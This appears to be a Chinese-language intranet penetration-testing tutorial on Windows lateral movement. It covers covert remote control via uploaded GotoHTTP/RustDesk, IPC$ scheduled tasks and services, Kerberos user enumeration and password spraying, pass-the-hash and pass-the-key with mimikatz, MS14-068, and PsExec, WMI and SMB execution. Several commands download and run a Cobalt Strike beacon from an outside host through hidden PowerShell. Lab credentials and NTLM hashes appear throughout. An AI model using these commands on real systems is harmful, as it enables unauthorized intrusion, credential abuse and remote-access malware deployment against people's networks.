# GoToHttp

## 简介

GotoHTTP Windows版本是绿色软件, 最低支持古老的Windows 2000操作系统，最高支持当前最新的操作系统，点击右边链接下载软件包，文件大小仅数百K，只有一个文件在软件包中，将其解压到你电脑的某个位置，并双击运行它, 将会自动连接到服务器并显示这台电脑的ID及控制码。

执行此软件需要管理员权限，并且它已经开始要收费了

工具下载地址：http://www.gotohttp.com/goto/download.12x


## 操作步骤

上传`gotohttp.exe`至目标主机，并执行



	


程序运行后会在当前目录生成一个配置文件`gotohttp.ini`

	


查看配置文件内容，可以找到远控目标主机的网址、ID以及控制码

	


浏览器访问网址，随后输入上述的ID和控制码后，即可实现远控目标主机

	




# RustDesk

## 简介

相对于GoToHtpp而言，RustDesk的优点是免费开源的、支持自建服务器以及普通权限也能执行

RustDesk下载地址：https://gitee.com/rustdesk/rustdesk/releases (注意：此处要下载portable版本的)

	


## 操作步骤

将RustDesk程序上传至目标主机并执行



	


找到RustDesk.toml的所在路径(通常为: `C:\User\用户名\AppData\Roaming\RustDesk\config`)	




查看RustDesk.toml的内容，可以发现其密码字段是空的			




将RustDesk.toml文件下载至本地, 自行添加密码后再上传回目标主机



		




找到RustDesk的进程ID，随后将其杀死并重启

	


在本机另开一个RustDesk程序, 输入相应的ID和密码即可远控目标主机

	


# IPC横向移动	

## IPC介绍

在内网渗透的背景下，IPC（Inter-Process Communication）通常指的是Windows的IPC$共享，而不是传统的进程间通信机制。

`IPC$`共享在Windows中被用作特殊的共享点，允许通信过程（例如认证）在Windows计算机之间传递。在内网渗透测试和攻击场景中，攻击者经常利用`IPC$`共享尝试执行无密码或空密码的会话连接，或利用已知的凭据进行身份验证。一旦建立了`IPC$`连接，攻击者可能会尝试进一步的活动，如横向移动。


## IPC$的利用条件

### 1.开启139或445端口

想远程利用 `IPC$`，目标机器需要开启 `139` 或 `445` 端口				

- **端口 139**：这是NetBIOS会话服务端口。它主要用于Windows文件和打印共享，以及Windows计算机名称注册和查找。这是SMB（Server Message Block）早期使用的端口。
- **端口 445**：这是Microsoft-DS服务端口。它用于文件、打印共享和Active Directory服务。从Windows 2000开始，Microsoft开始转向SMB直接在TCP上的使用，而不再依赖NetBIOS


### 2.开启默认共享

开启默认共享是Windows的一个标准功能，主要用于管理和远程连接目的。不过，这些默认共享可能被系统管理员显式禁用，尤其在安全敏感的环境中，可使用`net share`命令来进行查看

	


## 常用操作

### 1.IPC连接的创建与删除

在进行IPC横向移动之前, 需执行如下命令来建立`IPC$`连接。（注意：如果只是为了建立一个IPC连接，那么提供的用户不必是管理员；但如果你打算通过这个IPC连接进行其他操作，如访问特定的文件共享、执行命令等，那么所需的权限将取决于你要执行的特定操作）

```
net use \\<目标ip>\ipc$ /user:<用户名> <用户密码>
```



​	

执行如下命令查看计算机当前的网络连接

```
net use
```




执行如下命令删除指定`IPC$`连接

```
net use \\<目标ip>\ipc$ /delete
```

	


### 2.查看目标主机目录

使用`dir`命令访问目标主机共享目录下的所有文件

```
dir \\<目标ip>\C$
```

	

	


### 3.列出目标主机的所有进程	

执行`tasklist`命令列出目标主机的所有进程 (目标主机需关闭防火墙)

``` 
tasklist /s <目标ip> /u <用户名> /p <用户密码>
```

	


### 4.上传文件至目标主机

执行如下命令将文件上传至目标主机的C盘 

```
copy payload.ps1 \\192.168.47.133\c$
```

	


### 5.创建计划任务 

执行如下命令创建一个名为"MyTask"的计划任务，当目标系统启动时则执行我们的powershell脚本

```
schtasks /create /s 192.168.47.133 /u Administrator /p qq123456 /tn MyTask /sc onstart /tr "powershell.exe -ExecutionPolicy Bypass -File C:\payload.ps1" /f
```




执行如下命令删除指定计划任务

```
schtasks /delete /u Administrator /p qq123456 /s 192.168.47.133 /tn Mytask /f
```




### 6.创建系统服务		

执行如下命令为目标主机创建系统服务

```
sc \\192.168.47.133 create "MyService" binpath= "powershell.exe -ExecutionPolicy Bypass -File C:\payload.ps1"
```



​	

设置指定系统服务开机自启动

```
sc \\192.168.47.133 config "MyService" start=auto
```



​	

删除指定系统服务

```
sc \\192.168.47.133 delete "MyService"
```

	


# 枚举用户和爆破

## 原理分析

当使用域用户登录主机时，可用 "net user /domain" 命令列举域内用户。但非域用户登录或主机不在域内但能与域控通信时，该命令不可用。此时，可以利用Kerberos认证的特性进行用户枚举。在Kerberos的AS-REQ阶段，根据用户是否存在以及密码的正确性，返回的数据包会有所不同。通过分析这些返回包，我们可以枚举域内的用户并执行密码喷洒攻击


## 使用工具

### kerbrute

使用kerbrute执行如下命令，实现枚举域内用户

```
kerbrute.exe userenum --dc <域控ip> -d <所在域> <用户名字典>
```

	


通常爆破密码都是采用多个密码去碰撞一个账号，但是这种方式容易导致域内用户被锁定，因此Kerbrute采取密码喷洒的方式，即一个密码对应多个用户，执行命令如下：

```
kerbrute.exe passwordspray -d <所在域> <用户字典> <爆破密码>
```

	


### DomainPasswordSpray

使用DomainPasswordSpray.ps1脚本仅适用于爆破域内用户，powershell执行命令如下：

```
Import-Module .\DomainPasswordSpray.ps1

Invoke-DomainPasswordSpray -UserList <> -Domain henry.com -Password qQ123456 -Force
```

	


# PTH横向移动

## 简介

哈希传递攻击（Pass-the-Hash, PTH）是一种攻击技术，攻击者不需要知道用户的明文密码，而是直接利用密码的哈希值进行认证。当用户登录计算机或访问资源时，操作系统会生成并存储密码的哈希值。攻击者通过某种方式获取这些哈希值，然后使用它们来伪装成合法用户，以访问网络上的资源。

在PTH攻击中，攻击者的目标是捕获并使用这些哈希值，而不是尝试破解它们得到实际的密码。这种攻击是在Windows环境中特别常见的，因为NTLM认证机制允许哈希作为凭证进行认证


## 利用条件

哈希传递攻击要求管理员的 NTLM Hash 以及目标机器的445端口开放。

- **对于Windows Vista之前的机器**：可以使用本地管理员组内的用户哈希进行攻击。
- **对于Windows Vista及之后的机器**：
  - 在工作组环境中：只有administrator（SID为500）用户的哈希可以用于攻击。其他用户，即使是管理员用户，也会收到“拒绝访问”的提示。
  - 在域环境中：仅域管理员组内的用户哈希（包括非administrator用户）可以用于攻击，成功后可访问域内任意机器。


## 使用mimikatz获取域控管理员权限cmd

当我们得到域控管理员用户的NtlmHash时，比如此处我获取到管理员用户的ntlmhash为`e39c2287a10517cf1cde66bd8c7c6cf0`，执行如下命令，执行完毕后会反弹一个域控管理员权限的cmd

```
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:10.10.10.10 /ntlm:e39c2287a10517cf1cde66bd8c7c6cf0"
```




利用域控管理员权限的cmd，可以进行更进一步的后渗透，比如`dir`查看域控目录和`schtasks`创建计划任务等等

	


## CS执行psexec_psh横移上线

当我们扫描完内网获取到存活主机后，点击上方的准心图标，可以查看扫描到的主机。随后选择你要横移上线的目标主机，点击`鼠标右键->Jump->psexec_psh`




填写域控管理员用户、对应的NtlmHash以及其他信息

	


点击Launch后可以发现目标主机在CS上线


​	

# PTK横向移动

## 简介

传统的“Pass-the-Hash”(PTH)攻击允许攻击者使用NTLM哈希进行身份验证。但随着时间的推移和Windows的更新，微软已经引入了更加安全的身份验证机制，如Kerberos，并引入了AES密钥作为身份验证的一部分。

在"Pass the Key"攻击中，攻击者不再使用NTLM哈希，而是利用AES密钥（通常称为Kerberos票据加密的密钥）来进行身份验证。这种攻击方式适用于那些已经对PTH攻击进行了防御或更新了更新的操作系统版本的环境。

- **WinXP/2003/Vista/2008**和**未打KB2871997补丁**之前的**Win7/2008r2/8/2012**：这些系统容易受到传统的NTLM哈希传递攻击。
- **8.1/2012r2**和安装了**KB2871997补丁**的**Win 7/2008r2/8/2012**：这些系统已经对传统的NTLM哈希传递攻击进行了防御，但攻击者可以使用AES密钥来进行身份验证。


**以下是对KB2871997补丁的描述：**

1. **限制本地管理员远程连接**：此补丁禁止本地管理员账户用于远程连接，从而避免使用wmi、psexec、schtasks、at等工具和文件共享的远程执行。
2. **影响Pass The Hash攻击**：发布此补丁后，常规的Pass The Hash攻击受到限制，但默认的Administrator (SID 500)账号仍可以用于此类攻击。
3. **支持AES密钥验证**：尽管NTLM验证可能受到影响，但攻击者仍可以使用AES密钥进行横向移动。拥有Administrator权限后，能够绕过此补丁的NTLM限制。
4. **增强内存凭据安全性**：此补丁的一个主要优势是减少在lsass.exe中缓存的凭据。特别是，经过wdigest协议认证的凭据不再存储，因此在提取lsass.exe时不再可见。


## 演示步骤

在CobaltStrike中使用mimikatz列出当前存储的Kerberos加密密钥，获取`aes256_hmac`字段的值

```
mimikatz sekurlsa::ekeys
```

	


执行如下命令传递密钥，随后目标主机会弹出administrator权限的cmd框

```
sekurlsa::pth /user:administrator/domain:hack.com
/aes256:b03fcae60f0b32a105a8082e89a09cd88a5a6c54b0a209caaa9664c6bc223232
```




# ms14-068

## 漏洞描述

**MS14-068**是2014年由Microsoft公布的关于Windows Kerberos KDC（Key Distribution Center）服务的一个安全漏洞。其核心问题在于Kerberos KDC服务未正确验证签名，这使得攻击者可以伪造一个Kerberos票据，即Ticket Granting Ticket（TGT）

具体利用过程如下：

1. 攻击者首先获取一个有效的域用户的Kerberos票据。
2. 利用这个漏洞，攻击者可以伪造一个带有域管理员权限的TGT。
3. 使用伪造的TGT，攻击者可以请求TGS（Ticket Granting Service）票据，以获取访问特定服务（如CIFS、SQL Server等）的权限。
4. 一旦拥有了域管理员权限的TGS票据，攻击者便可以执行多种攻击，包括但不限于添加域管理员账户、修改域策略等

此漏洞对所有Windows Server版本（从Windows Server 2000开始）的域控制器都有影响，除非它们已经安装了**KB3011780**补丁


## 利用条件

- 获取域普通用户的账号密码
- 域控服务器未打KB3011780补丁


## 利用步骤

使用goldenpac.exe工具，该工具是MS14-068+psexec的组合，使用语法如下

```
goldenPac.exe <域名>/<域用户名>:<域用户明文密码>@<域控完整域名>
```

	


# Psexec

## 简介

`PsExec`是Sysinternals套件中的一个工具，由Microsoft发布。它允许系统管理员在远程Windows主机上执行进程，通常不需要在远程系统上安装任何客户端软件。在内网渗透测试中，`PsExec`有以下作用：

- **远程命令执行**：渗透测试人员可以使用`PsExec`在远程主机上执行命令，这对于执行恶意代码、执行数据收集任务或执行其他操作都非常有用。
- **横向移动**：当攻击者在网络中的一个节点上获得权限后，他们通常会尝试移动到其他系统。`PsExec`允许他们在其他系统上执行命令和程序，从而实现在网络中的横向移动。
- **提权**：在某些情况下，通过使用`PsExec`，攻击者可能能够以更高的权限级别执行进程，特别是如果目标系统存在配置不当或漏洞。
- **文件传输**：除了远程执行命令，`PsExec`还可以用来上传或下载文件，这对于部署恶意工具或提取敏感数据都很有用。
- **服务创建**：`PsExec`可以在远程系统上创建并启动服务，这为持久性和后门访问提供了机会。
- **避免直接触碰硬盘**：由于`PsExec`可以直接在内存中执行文件，因此它可以避免某些基于磁盘的侦测机制。


## 使用指南

### 常用参数

| 参数          | 描述                                                         |
| ------------- | ------------------------------------------------------------ |
| `\\computer`  | 指定目标计算机。使用`\\*`指定网络中的所有计算机。            |
| `-u`          | 指定用于登录的用户名。如：`-u domain\username`。             |
| `-p`          | 指定用户的密码。                                             |
| `-s`          | 在远程计算机上的System账户上下文中执行命令。                 |
| `-i`          | 在指定的会话中运行程序，与交互式应用程序互动。               |
| `-d`          | 不等待远程程序完成，后台执行命令。                           |
| `-accepteula` | 接受PsExec的许可协议。                                       |
| `-h`          | 如果目标系统启用了UAC，使远程进程在UAC上下文中“继承”父进程的令牌。 |


### 常用操作

**1.建立一个管理员权限的交互性的shell**

```
PsExec \\ip -u <管理员用户> -p <用户密码>  -accepteula -s cmd.exe
```


**2.远程执行程序**

```
PsExec \\ip -u <管理员用户> -p <用户密码> -accepteula -s C:\beacon.exe
```


**3.尝试以更高的权限执行程序**

```
PsExec \\ip -u <管理员用户> -p <用户密码> -accepteula -h C:\beacon.exe
```


## IPC$下使用psexec

首先需建立IPC$链接

```
net use \\dc.henry.com\ipc$ /user:administrator qQ123456
```

	


上传psexec至目标主机，远程执行ipconfig命令

```
PsExec64.exe -accepteula \\dc.henry.com -s ipconfig
```

	


获取一个交互性的cmd shell

```
PsExec64.exe -accepteula \\dc.henry.com -s cmd
```

	


## CS下使用psexec

在jmp菜单有`psexec`和`psexec_psh`，它们都是远程执行的工具，只不过工作方式稍有不同：

- **psexec**：这是基于Sysinternals的`PsExec`工具的功能。它将有效载荷（通常是一个服务）上传到远程机器并执行它。
- **psexec_psh**：相比于传统的`psexec`，它尝试使用PowerShell执行有效载荷，这可以在某些环境中提供更隐蔽的执行，因为它尝试不在目标机器上写入任何文件




填写域控管理员的相关信息

	


执行psexec后会上线你填写的域控用户权限的会话




若出现下图情况，那么很可能目标服务器安装了杀软




# WMI横移

## WMI介绍

WMI是微软在发布Powershell之前用于管理Windows系统的核心数据库工具。它的架构类似于数据库，并使用DCOM或WinRM协议来操作。随着PsExec在内网中受到严格监控，并被许多反病毒厂商列为黑名单，黑客开始转向WMI来进行横向移动。值得注意的是，Windows操作系统默认不会在日志中记录WMI操作，这导致了许多APT开始使用WMI作为攻击手段。

WMIC是WMI的扩展，它提供了从命令行接口及批处理脚本执行系统管理的能力。简而言之，wmic即wmic.exe，位于Windows目录中，是一个命令行工具。WMIC支持两种执行模式：交互模式和非交互模式。总的来说，WMI是Windows的核心管理技术。


## WMI横移命令

如下命令实现在远程计算机上创建并运行一个新进程，换句话说，即在指定的远程节点上执行一个Powershell命令，以此实现CS上线(注意：普通用户也能执行)

```
shell wmic /NODE:10.10.10.10 /user:administrator /password:qQ123456 PROCESS call
create "powershell.exe -nop -w hidden -c \"IEX ((new-object
net.webclient).downloadstring('http://10.10.10.3:8000/beacon.ps1'))\""
```




## WMI工具横移

### wmiexec.exe

将wmiexec.exe上传至目标主机，随后执行如下命令，让目标域控上线

```
shell wmiexec.exe administrator:qQ123456@10.10.10.10 "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.3:8000/beacon.ps1'))"
```




### Invoke-WMIExec.ps1

首先导入powershell脚本：`Invoke-WMIExec.ps1`

```
powershell-import
```




远程执行powershell命令上线域控

```
powershell Invoke-WMIExec -Target 10.10.10.10 -Username administrator -Hash e39c2287a10517cf1cde66bd8c7c6cf0 -Command "powershell.exe -nop -w hidden -c IEX((new-object net.webclient).downloadstring('http://10.10.10.3:8000/beacon.ps1'))" -verbose
```



​	

# SMB横移

## 简介

SMB (Server Message Block) 是一种网络文件共享协议，允许应用程序（或用户）在客户端和服务器之间读写文件并请求服务

在内网渗透测试和横向移动中，SMB (Server Message Block) 协议起着关键的作用。以下是SMB在此背景下的几个主要功能：

- **文件共享**：SMB最初的目的是提供文件共享。攻击者可以利用SMB文件共享来查找敏感文件、下载恶意工具或执行恶意载荷。
- **远程代码执行**：利用SMB协议的工具和技巧（如Psexec）允许攻击者在远程系统上执行代码。
- **凭证盗取**：某些攻击手法，如“Pass-the-Hash”或“Pass-the-Ticket”，允许攻击者使用盗取的凭证或哈希在SMB服务上进行身份验证，从而在网络内部的其他系统上获得访问权限。
- **信息搜集**：SMB可以用来搜集关于远程系统的信息，如操作系统版本、安装的补丁等。
- **漏洞利用**：在过去，SMB协议本身存在多个严重的漏洞，如EternalBlue，这些漏洞被广泛利用来进行横向移动和网络自动化传播。
- **NetNTLM中继和嗅探**：攻击者可以尝试中继或嗅探SMB认证尝试，如NetNTLM哈希，然后使用这些哈希来进行身份验证或进行离线破解。
- **默认共享**：Windows系统上的默认共享（如C$、ADMIN$）为横向移动提供了机会，因为这些共享可能允许已认证的用户访问。


## SMB横移工具

### smbexec

smbexec是impacket工具包里的工具，支持明文传递和hash传递，命令执行成功后会得到目标服务器的cmd shell


如下命令使用明文传递来获取cmd shell

```
smbexec administrator:qQ123456@10.10.10.10
```

	

​	

如下命令使用hash传递来获取cmd shell

```
smbexec -hashes aad3b435b51404eeaad3b435b51404ee:e39c2287a10517cf1cde66bd8c7c6cf0 administrator@10.10.10.10
```




### Invoke-SMBExec

Invoke-SMBExec是Invoke-TheHash工具包里的powershell脚本，如下命令实现执行远程powershell命令来让目标服务器在CS上线

```
Invoke-SMBExec -Target 10.10.10.10 -Domain henry.com -Username administrator -Hash e39c2287a10517cf1cde66bd8c7c6cf0 -Command "powershell.exe -nop -w hidden -c IEX((new-object net.webclient).downloadstring('http://10.10.10.3:8000/beacon.ps1'))" -verbose
```




​						

# END